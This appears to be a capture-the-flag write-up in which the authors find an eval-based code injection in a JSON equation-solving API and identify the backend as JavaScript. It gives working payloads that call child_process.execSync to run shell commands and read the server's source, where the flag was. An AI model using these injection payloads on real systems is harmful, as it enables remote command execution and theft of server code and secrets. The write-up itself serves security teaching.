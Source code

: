 # Ancient Writings #3

### [~$ cd ..](../)

For this challenge, we were asked to find and exploit a vulnerability in a simple web API.

The API had only one route accepting only `POST` requests. The requests body were meant to be simple equations that were going to be solved. The requests and responses were `json` formatted.

The requests body looked like this:

```json
{
  "equation": "1+1"
}
```
And the responses:
```json
{
  "result": 2
}
```

We first tried some very crude buffer overflows and stack overflows by sending massive requests and equations with a lot of parenthesis. None of that worked.

Then we thought the backend may use a function like `eval(expr)` to compute the result, so we gave it a try. Sending :
```json
{
  "equation": "eval(1)"
}
```
gave us the following response :
```json
{
  "result": 1
}
```

Here we had found the vulnerability but not yet the language used, so we just sent another request :
```json
{
  "equation": "eval(1);"
}
```
This also gave us a successful response :
```json
{
  "result": 1
}
```
From here we thought about either a `php` or `js` server.
We placed our bet on `js` and tried the following request :
```json
{
  "equation": "var dummy = 1;"
}
```
This also gave us a successful response :
```json
{
  "result": 1
}
```
From here we started building a payload allowing us to execute commands on the server :

```json
{
    "equation": "const exec = require('child_process').execSync;var out = Buffer.from(exec('ls')).toString('hex');out;"
}
```

Which gave us `index.js` in hexadecimal. Then we made a last request :

```json
{
    "equation": "const exec = require('child_process').execSync;var out = Buffer.from(exec('cat index.js')).toString('hex');out;"
}
```

This gave us all the code of the server which contained the flag.

DONE
